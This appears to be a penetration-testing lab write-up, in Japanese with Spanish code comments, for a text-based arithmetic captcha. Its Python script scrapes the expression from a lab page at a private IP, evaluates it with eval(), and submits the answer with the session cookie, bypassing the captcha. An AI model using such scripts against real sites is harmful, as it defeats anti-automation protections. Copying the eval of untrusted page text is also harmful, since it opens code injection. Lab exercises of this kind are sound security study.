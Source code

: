 ![8d8eb02d1feeac79da121c126e91eb5f.png](../../_resources/8d8eb02d1feeac79da121c126e91eb5f.png)

# <span style="color: blue;">Example 9</span>
しかし、ソースコードを見ると、数値も演算子も画像ではなく、テキストで渡されていることがわかる。
そこで、ソースコードを読み込んで情報（数値や演算子）を抽出し、算術演算を行い、フォームに渡すスクリプトを作ればよいのです。   
```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, os


print("[+] Descargando Pagina");  
site = urllib.request.urlopen("http://192.168.100.167/captcha/example9/")
global cookie
cookie = site.getheader('Set-Cookie')
print("-----Cookie extraida: " + cookie);
site_html = site.read().decode("utf-8")
#print(site_html)
global token
# Obtener el token (10 numeros + . + 7 numeros)
token = re.findall(r'(?:[0-9]|[0-9])+[\+\-\^\*]+(?:[0-9]|[0-9])', site_html)
print ("-----Token: " + token[0])
resultado=eval(token[0])
#print(resultado)
print("[+] Enviando peticion...");
urlconcaptcha = "http://192.168.100.167/captcha/example9/submit?captcha="+str(resultado)+"&Submit+Query"
print("-----URL: " + urlconcaptcha);
request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
f = urlopen(request)
response = f.read().decode('utf-8')
#print(response)
exito = re.search('Success', response)
if exito:
    print("-----Conseguido!")
else:
    print ("-----Fallo!")

print("[+] Fin!");
```